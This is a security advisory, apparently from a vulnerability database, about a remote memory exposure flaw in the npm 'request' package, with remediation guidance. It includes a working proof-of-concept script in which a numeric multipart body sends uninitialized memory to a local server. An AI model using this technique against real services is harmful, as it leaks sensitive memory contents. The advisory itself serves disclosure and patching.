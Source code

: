 ## Overview
[`request`][https://www.npmjs.com/package/request] is a simplified http request client.
A potential remote memory exposure vulnerability exists in `request`. If a `request` uses a multipart attachment and the _body type_ option is `number` with value X, then X bytes of uninitialized memory will be sent in the body of the request.

Note that while the impact of this vulnerability is high (memory exposure), exploiting it is likely difficult, as the attacker needs to somehow control the body type of the request. One potential exploit scenario is when a request is composed based on JSON input, including the body type, allowing a malicious JSON to trigger the memory leak.

### Details
Constructing a `Buffer` class with integer `N` creates a `Buffer`
of length `N` with non zero-ed out memory.
**Example:**
```
var x = new Buffer(100); // uninitialized Buffer of length 100
// vs
var x = new Buffer('100'); // initialized Buffer with value of '100'
```

Initializing a multipart body in such manner will cause uninitialized memory to be sent in the body of the request.

#### Proof of concept
```javascript
var http = require('http')
var request = require('request')

http.createServer(function (req, res) {
  var data = ''
  req.setEncoding('utf8')
  req.on('data', function (chunk) {
    console.log('data')
    data += chunk
  })
  req.on('end', function () {
    // this will print uninitialized memory from the client
    console.log('Client sent:\n', data)
  })
  res.end()
}).listen(8000)

request({
  method: 'POST',
  uri: 'http://localhost:8000',
  multipart: [{ body: 1000 }]
},
function (err, res, body) {
  if (err) return console.error('upload failed:', err)
  console.log('sent')
})
```

## Remediation
Upgrade `request` to version 2.68.0 or higher.

If a direct dependency update is not possible, use [`snyk wizard`](https://snyk.io/documentation/#wizard) to patch this vulnerability.

## References
- [Github PR](https://github.com/request/request/pull/2018)
- [Blog: Node Buffer API fix](https://github.com/ChALkeR/notes/blob/master/Lets-fix-Buffer-API.md#previous-materials)
- [Blog: Information about Buffer](https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md)
